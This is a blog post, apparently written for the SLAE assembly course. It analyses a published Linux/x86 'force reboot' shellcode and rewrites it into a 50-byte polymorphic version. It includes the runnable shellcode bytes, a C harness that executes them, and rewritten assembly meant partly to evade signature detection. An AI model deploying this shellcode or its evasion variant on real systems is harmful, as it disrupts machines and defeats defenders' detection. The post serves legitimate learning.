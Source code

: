```yaml
---
layout: post
title: SLAE 6.1 - Shell-Storm Polymorphism - force reboot
date:   2019-03-04
categories: [SLAE, Assembly]
---
```

The first piece of shellcode we will try to create a polymorphic version of will be:

http://shell-storm.org/shellcode/files/shellcode-831.php
```
**********************************************
* Linux/x86 Force Reboot shellcode 36 bytes  *
**********************************************
* Author: Hamza Megahed                      *
**********************************************
* Twitter: @Hamza_Mega                       *
**********************************************
* blog: hamza-mega[dot]blogspot[dot]com      *
**********************************************
* E-mail: hamza[dot]megahed[at]gmail[dot]com *
**********************************************

xor    %eax,%eax
push   %eax
push   $0x746f6f62
push   $0x65722f6e
push   $0x6962732f
mov    %esp,%ebx
push   %eax
pushw  $0x662d
mov    %esp,%esi
push   %eax
push   %esi
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80

**********************************************

#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e"
                  "\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3"
                  "\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53"
                  "\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}
```
It says it is a force reboot shellcode.  Let's do some analysis before we run it just to verify that it does what it claims to do.

With how short the shellcode is, I'll check the instructions with ndisasm for a quick overview.
```
python -c "print '\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80'" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  68626F6F74        push dword 0x746f6f62
00000008  686E2F7265        push dword 0x65722f6e
0000000D  682F736269        push dword 0x6962732f
00000012  89E3              mov ebx,esp
00000014  50                push eax
00000015  66682D66          push word 0x662d
00000019  89E6              mov esi,esp
0000001B  50                push eax
0000001C  56                push esi
0000001D  53                push ebx
0000001E  89E1              mov ecx,esp
00000020  B00B              mov al,0xb
00000022  CD80              int 0x80
00000024  0A                db 0x0a
```
Summarizing what I am seeing at a high level before we dig in to more details:
```
* push null byte
* push what looks like a string
* 1st arg is the string
* push another null
* push another value (string)
* store string address in esi
* push null
* push 2nd string address
* push 1st string address
* move this struct into our 2nd arg
* syscall 11 - execve
```
So we have execve(string1, {string1 string2})

Let's check the strings:
```
>>> binascii.unhexlify('746f6f62')
'toob'
>>> binascii.unhexlify('65722f6e')
'er/n'
>>> binascii.unhexlify('6962732f')
'ibs/'
>>> binascii.unhexlify('662d')
'f-'
```
Little Endian - first string reads: /sbin/reboot

second string reads: -f

So our command is execve('/sbin/reboot', {'/sbin/reboot','-f'},0)

Now that we know the call it makes, I know what to expect and to look for.  Running it does restart the computer.

Let's begin making a polymorphic version of this..

This is a pretty short piece of shellcode so we can try to mix it up as much as we possible.. One of the requirements is that our version cannot be greater than 150% of the original. Given that our original is 36 bytes, we have to fit within 54 bytes.

The original starts by zeroing out EAX, which is a creative solution since EAX needs to be zeroed out at the end to mov 0xb into AL for the syscall.  I'll be using EDX as the null and just zero EAX later on right before the syscall. 

We can zero EDX with the instruction "cdq" which is a 1 byte opcode.  

The next step is to push "/sbin/reboot" to the stack, let's just split this so that we push word values instead of dword values. This might avoid detection on the dword pushes. Then, move the stack pointer into EBX, I am just going to leave this instruction.  So we are currently at:
```nasm
 cdq
 push edx

 push word 0x746f
 push word 0x6f62
 push word 0x6572
 push word 0x2f6e
 push word 0x6962
 push word 0x732f
 mov ebx, esp
```
Next, we are going to push a null terminated '-f' to the stack and move it's address in to ESI for safe keeping. push EDX since it is our NULL value and push the string '-f'. 
```nasm
 push edx
 push word 0x662d
 ```
Now we need to change this mov esi, esp.  I will use EAX since we will be changing it soon anyways.. EAX can be zero'd out by subtracting by itself to get 0, then we can just add esp to it.  So, we are essentially doing a mov eax, esp but using sub and add instructions.
 ```nasm
 sub eax, eax
 add eax, esp
```
Next, we create the args struct with a few push instructions.  I will push edx (NULL), push eax ('-f'), push ebx ('/sbin/reboot') then we need to move our stack pointer into ecx.  Let's do the sub - add replacement again for the mov.
```nasm
push edx
push eax
push ebx
sub ecx, ecx
add ecx, esp
```
The last instructions move 0xb into AL and then makes the syscall.  Since I decided to use EDX as the null and EAX has values in it, I have to zero it out and then move the right syscall value into AL.  Again, sub add replacement here, then the int 0x80.
```nasm
sub eax, eax
add al, 0xb
int 0x80
```
All done, our total bytes is 50 and it runs properly!  Let's put them side by side to show the differences.
```nasm
xor eax,eax                          cdq     
push eax                             push edx
push dword 0x746f6f62                push word 0x746f
                                     push word 0x6f62
push dword 0x65722f6e                push word 0x6572
                                     push word 0x2f6e
push dword 0x6962732f                push word 0x6962
                                     push word 0x732f
mov ebx,esp                          mov ebx, esp

push eax                             push edx
push word 0x662d                     push word 0x662d
mov esi,esp                          sub eax, eax
                                     add eax, esp
push eax                             push edx
push esi                             push eax
push ebx                             push ebx
mov ecx,esp                          sub ecx, ecx
                                     add ecx, esp
mov al,0xb                           sub eax, eax
                                     add al, 0xb
int 0x80                             int 0x80
```
